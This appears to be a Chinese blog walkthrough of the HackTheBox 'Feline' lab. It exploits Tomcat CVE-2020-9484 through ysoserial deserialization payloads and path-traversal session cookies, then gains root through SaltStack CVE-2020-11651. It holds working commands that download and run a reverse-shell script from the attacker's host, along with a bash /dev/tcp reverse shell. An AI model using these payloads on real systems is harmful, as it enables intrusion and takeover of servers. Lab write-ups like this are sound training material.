 ```yaml
---
layout:     post
title:      HackTheBox Feline
subtitle:   HackTheBox
date:       2021-02-04
author:     heria
header-img: img/post-bg-swift.jpg
catalog: true
tags:
---
```




![image-20210325182701508](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182701508.png)



## 0X01CherryTree简介

CherryTree在kali内自带

![image-20210325182751781](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182751781.png)



类似markdown，用于做笔记

![image-20210325182808351](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182808351.png)

## 0X02渗透

![image-20210325182834919](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210325182834919.png)



-sC： 等价于–script=default，使用默认类别的脚本进行扫描 可更换其他类别

-sV  打开版本探测

-A同时打开操作系统探测和版本探测。

检测到开放22和8080端口

8080 ApacheTomcat 9.0.27

访问8080，virusBucket 发现上传点

![image-20210204165516800](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204165516800.png)

bp抓包 上传点/upload.jsp 更改上传文件名后报错，显示上传目录名

![image-20210204165601035](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204165601035.png)

搜索apache tomcat 9.0.27漏洞

**CVE-2020-9484** 

![image-20210204165819590](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204165819590.png)

https://www.cybersecurity-help.cz/vdb/SB2020052124

https://www.redtimmy.com/apache-tomcat-rce-by-deserialization-cve-2020-9484-write-up-and-exploit/

![image-20210204170307853](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204170307853.png)

首先创建反弹shell的payload 

![image-20210204170601645](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204170601645.png)



之后创建序列化session文件（使用curl下载payload）和另外一个序列化session文件(执行payload)

从https://github.com/frohoff/ysoserial

![image-20210204170737690](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204170737690.png)

下载ysoserial反序列化工具

java -jar yso... 查看用法

![image-20210204170851836](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204170851836.png)

java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'curl http://10.10.15.64/reverse.sh -o /tmp/reverse.sh' >downloadpayload.sh    （用来下载）

java -jar ysoserial-master-d367e379d9-1.jar CommonsCollections2 'bash /tmp/reverse.sh' >executepayload.sh (用来执行)

![image-20210204171546222](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204171546222.png)

创建一个curlcommands.sh文件 执行带有cookie和恶意代码的curl指令

文件内容

curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/downloadpayload' -F 'image=@downloadpayload.session'
sleep 1
curl http://10.10.10.205:8080/upload.jsp -H 'Cookie:JSESSIONID=../../../opt/samples/uploads/executepayload' -F 'image=@executepayload.session'

![image-20210204171708812](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204171708812.png)

python 开启http服务，nc监听   bash执行curlcommand脚本

![image-20210204172143924](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172143924.png)

拿到tomcat权限

![image-20210204172309822](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172309822.png)

![image-20210204172505614](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172505614.png)

netstat -ntulp 发现开放4505，4506端口

![image-20210204172619272](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172619272.png)

搜索发现为saltstack应用

继续搜索saltstack漏洞

 CVE-2020-11651 查找poc

![image-20210204172745247](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204172745247.png)

https://github.com/jasperla/CVE-2020-11651-poc

（exploit.py 需要salt模块，需要pip3下载）

python3 exploit.py 发现作用在127.0.0.1:4505上，直接上传利用失败(module not found on the target system)，因此使用chisel建立tcp tunnel(use reverse portforwarding on prot 4506 to run exploit locally)

https://github.com/jpillora/chisel

依然通过python 开启http，目标端tomcat shell 执行curl下载

![image-20210204173634802](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204173634802.png)

chmod 加执行权限

客户端服务端分别启动，

![image-20210204173945157](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204173945157.png)

此时再次执行CVE-2020-11651/exploit.py 

![image-20210204174128307](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204174128307.png)

python3 exploit.py --help 查询指令 ![image-20210204174222116](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204174222116.png)



使用--exec参数执行反弹shell 成功弹回root权限

python3 exploit.py --master 127.0.0.1 --exec 'bash -c "bash -i >& /dev/tcp/10.10.15.68/7878 0>&1"'

![image-20210204174549490](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204174549490.png)



通过cat .bash_history，发现

curl -s --unix-socket /var/run/docker.sock http://localhost/images/json

![image-20210204180124213](https://raw.githubusercontent.com/heriachen/cloudimg/main/img/image-20210204180124213.png)

后续利用docker.sock漏洞暂时未触及

## 0x03参考链接

https://www.youtube.com/watch?v=2fn65MrXJ8o&t=313s

https://www.youtube.com/channel/UCh35oGf3_djXJbJVZ1KJ40g
